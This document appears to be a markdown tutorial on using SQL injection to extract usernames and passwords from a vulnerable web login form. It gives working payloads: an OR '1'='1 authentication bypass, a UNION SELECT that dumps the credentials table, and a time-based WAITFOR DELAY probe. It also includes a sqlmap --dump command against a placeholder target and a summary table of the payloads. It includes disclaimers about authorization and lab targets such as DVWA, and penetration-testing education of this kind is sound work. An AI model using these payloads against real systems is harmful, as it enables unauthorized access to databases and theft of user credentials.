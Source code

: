 # SQL Injection: Extracting Usernames & Passwords

This example demonstrates how an SQL Injection attack can be performed to extract usernames and passwords from a vulnerable web application's database. *Only perform this on authorized test environments.*

---

## Prerequisites

- A web application vulnerable to SQL Injection
- Tools like sqlmap or manual injection via web forms or URL parameters
- Basic knowledge of SQL syntax

---

## Manual SQL Injection Example

### Step 1: Identify Injection Point

Suppose there is a login form with inputs:
- Username
- Password

The backend query might be:

SELECT * FROM users WHERE username = '<input_username>' AND password = '<input_password>';

### Step 2: Inject Payload to Extract Data

Try injecting into the username field:

' OR '1'='1

and leave the password blank or anything. This modifies the query to:

SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '';

Since '1'='1' always evaluates to TRUE, this bypasses login, but does not extract data.

### Step 3: Use UNION SELECT to Extract Data

If the application returns query results, try union-based SQL injection to retrieve usernames and passwords:

Input into username field:

' UNION SELECT username, password FROM users --

This appends the results of querying the usernames and passwords directly.

---

## Automated Extraction with SQLMap

Run in your terminal (replace http://targetsite.com/login with target URL):

sqlmap -u "http://targetsite.com/login" --data="username=admin&password=pass" --dump -p username

- --dump extracts database tables
- -p username tells sqlmap to test username parameter
- Use --dbs or --tables to enumerate databases and tables first

---

## Important Notes

- Always have explicit permission before testing any site.
- Use this only in test environments (DVWA, bWAPP, etc).
- SQL injection techniques vary by database type (MySQL, MSSQL, Oracle).

---

## Sample Payloads Summary

| Attack Type        | Payload Example                          | Purpose                          |
|--------------------|----------------------------------------|---------------------------------|
| Authentication bypass | `' OR '1'='1' -- `                   | Login bypass                    |
| Data extraction    | `' UNION SELECT username,password FROM users -- ` | Dump credentials from users table |
| Time-based blind   | `' WAITFOR DELAY '0:0:5' -- `           | Check blind injection presence  |

---

